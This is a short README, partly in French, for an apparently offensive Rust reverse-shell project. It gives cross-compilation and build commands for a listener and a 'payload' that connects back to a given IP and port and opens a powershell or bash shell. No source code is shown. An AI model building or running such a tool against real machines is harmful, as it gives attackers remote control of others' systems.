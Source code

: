 # rust-rev-shell

# Installation
- Pour ajouter le compilateur Windows depuis Linux :

```rustup target add x86_64-pc-windows-gnu && cargo install cross```

- Pour ajouter le compilateur Linux depuis Windows :

```rustup target add x86_64-unknown-linux-gnu && cargo install cross```

# Compilation
- Linux for Linux or Windows for Windows :

```cargo build --features <payload|listener>```

- Linux for Windows :

```cross build --target x86_64-pc-windows-gnu --release --features <payload|listener>```

# Usage

## Listener
```./listener <PORT>```

## Payload
```./payload <IP> <PORT> <powershell|bash>```
